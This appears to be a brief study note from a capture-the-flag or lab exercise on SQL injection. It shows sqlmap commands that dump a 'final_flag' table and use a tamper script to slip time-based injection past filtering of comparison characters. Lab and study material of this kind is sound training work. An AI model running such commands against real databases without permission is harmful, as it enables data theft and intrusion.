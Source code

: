 #SQL_Injection 

---

- When trying first **sqlmap** with the following command:
```bash
sqlmap -r req.txt --risk 3 -T final_flag --dump
```
I got the following error, seemingly because of special chars `>` `<`, since in this case **sqlmap** was using a **time-based sql injection** attack which uses comparison to check each char one-by-one. To avoid the above issue, I used the following command:
```bash
sqlmap -r req.txt --risk 3 -T final_flag --dump --tamper=between
```

which basically replaces these special characters as described in [[Bypassing Web Application Protections#^9b667b]]

